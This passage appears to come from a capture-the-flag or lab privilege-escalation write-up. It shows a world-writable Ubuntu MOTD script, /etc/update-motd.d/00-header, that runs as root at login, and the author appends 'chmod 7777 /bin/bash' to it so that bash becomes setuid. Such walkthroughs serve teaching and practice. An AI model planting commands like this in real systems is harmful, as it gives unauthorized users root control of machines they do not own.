 ```
-rwxr-xrwx 1 root root 1221 Jun  7  2020 /etc/update-motd.d/00-header
```

```
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
```

When logging into the system this MOTD file gets displayed on the users screen, and it gets called by the root user. Because of that we can modify the file to run additional commands as root and they will get executed whenever somebody logs into the system.

I modify the file and add the following at the bottom:

```
printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

chmod 7777 /bin/bash
```

Looking at the permissions of /bin/bash now:

```
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```
